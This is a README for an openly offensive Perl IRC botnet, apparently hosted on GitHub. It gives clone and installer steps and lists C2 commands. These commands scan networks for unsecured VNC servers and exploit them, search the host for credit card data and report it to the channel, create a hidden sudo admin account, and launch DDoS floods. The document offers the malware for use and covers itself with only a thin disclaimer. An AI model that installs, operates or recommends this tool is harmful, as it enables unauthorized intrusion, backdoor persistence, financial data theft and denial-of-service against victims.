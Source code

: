 # I am not responsible for any actions you make with this program.
# You will not use this program to commit illegal crimes.
# You take entire responsability if you damage your or someone else's computer.

This code is an IRC BOT that can connect to an IRC server with SSL
The main purpose of this bot is to scan for Open/Unsecured VNC servers.
The bot can also search for credit card informations in the computer that the bot is running.
There is also a DDoS module made in Python, for taking out the target from the network.


# --- How to install ---

git clone https://github.com/independentcod/PerlIRCSSL_VNCbypass.git
cd PerlIRCSSL_VNCbypass
chmod +x ./*
# (if using Debian, Kali or Ubuntu) 
./debian-installer.sh
# (elseif running CentOS)
./centos-installer.sh

# --- COMMANDS ---
#NOTE:The commands can be done via PRIVATE MESSAGE and CHANNEL also.

#NEW COMMAND: @.getssh <= This will make a random admin account/password with sudo powers (use: sudo su :to get root access)

#--this will scan 192.168.0.0/16 CIDR
@.scan 192.168.0.0-192.168.255.255 
#---This needs to be done before each @.exploit
@.format 
#---This runs the VNC exploit and reports the working VNCs to the channel
@.exploit 
#---This kills the exploit run
@.stopexploit 
#---This will ddos 127.0.0.1 on port 8080 tcp with 10000 packets in size with 1000 threads
@.ddos 127.0.0.1 8080 n 10000 1000 
#---This kills the running ddos, do I even need to explain this?...
@.ddos.stop
#---This will scan computer for credit card info and report in the channel.
@.ccplz
#---This will give you the current running version. 
@.version

# ---NOTE---
In order for bot to work you need to be operator in the channel, it also must be registered with services.
=======
# Follow the step-by-step installation and you are done.

#TODO: The ddos function seems broken for now, will repair in the next couple days.
